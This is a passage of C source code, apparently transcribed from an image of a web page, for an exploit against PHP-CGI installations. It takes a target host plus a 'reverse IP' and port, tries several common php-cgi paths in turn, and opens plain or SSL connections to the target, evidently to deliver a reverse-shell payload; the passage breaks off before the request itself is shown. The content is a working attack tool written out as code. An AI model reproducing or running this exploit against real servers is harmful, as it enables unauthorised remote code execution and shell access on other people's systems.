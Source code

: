 >       }
>       break;
>      
>      default:
>       usage(argv);
>      }
>   }
> 
>   if ((optind < argc) || !target || !protocol || !port ||
>       !reverseip || !reverseport){
>     usage(argv);
>   }
>   
>   server = gethostbyname_(target, port);
>   if (!server) {
>    printf("Error while resolving hostname. (7)\n");
>    exit(255);
>   }
> 
>   char *interpreters[5];
>   int ninterpreters = 5;
>   interpreters[0] = strdup("/cgi-bin/php");
>   interpreters[1] = strdup("/cgi-bin/php5");
>   interpreters[2] = strdup("/cgi-bin/php-cgi");
>   interpreters[3] = strdup("/cgi-bin/php.cgi");
>   interpreters[4] = strdup("/cgi-bin/php4");
>   
>   for (i=0;i<ninterpreters;i++) {
>    interpreter = interpreters[i];
>    if (forceinterpreter) {
>      interpreter = strdup(forceinterpreter);
>    }
>    if (forceinterpreter && i)
>     break;
>    printf("%s\n", interpreter);
>    
>    sockfd = socket(AF_INET, SOCK_STREAM, 0);
>    if (sockfd < 1) { 
>      printf("socket error (8)\n");
>      exit(255);
>    }
>   
>    if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
>     printf("connect error (9)\n");
>     exit(255);    
>    }
>    if (httpsflag) {
>     sslconnection = (connection*) malloc(sizeof(connection));
>     if (!sslconnection) {
>      printf("malloc error (10)\n");
>      exit(255);   
>     }
>     sslconnection->handle = NULL;
>     sslconnection->ctx = NULL;
> 
>     SSL_library_init();
> 
>     sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
>     if (!sslconnection->ctx) {
>      printf("SSL_CTX_new error (11)\n");
>      exit(255);
>     }
> 
>     sslconnection->handle = SSL_new(sslconnection->ctx);